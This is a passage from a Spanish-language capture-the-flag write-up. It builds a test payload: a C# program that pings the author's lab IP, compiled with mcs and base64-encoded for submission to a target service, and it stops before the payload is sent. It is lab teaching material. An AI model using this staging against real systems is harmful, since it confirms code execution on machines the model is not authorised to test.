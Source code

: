 ![Write-up Image](images/Screenshot_5.png)

Aunque puede que solo responda cuando un payload sea válido.

Podemos crear un pequeño script en C# para mandarnos un ping a nuestra máquina.
```C#
using System;
using System.Net.NetworkInformation;

namespace PingTest
{
    class Program
    {
        static void Main(string[] args)
        {
            string ipAddress = "10.10.14.125";
            Ping pingSender = new Ping();
            PingReply reply = pingSender.Send(ipAddress);
        }
    }
}
```

Y compilarlo con `mcs`

```console
$ sudo apt install mono-complete
```

```console
$ mcs -out:Test.exe Test.cs                                                       
Test.cs(12,23): warning CS0219: The variable `reply' is assigned but its value is never us
ed                                                                                        
Compilation succeeded - 1 warning(s) 
```

Lo codificamos en base64
```console
$ base64 Test.exe > payload.txt
```

Nos copiamos el binario codificado en la clipboard.
```console
$ cat payload.txt | xclip -sel clip
```
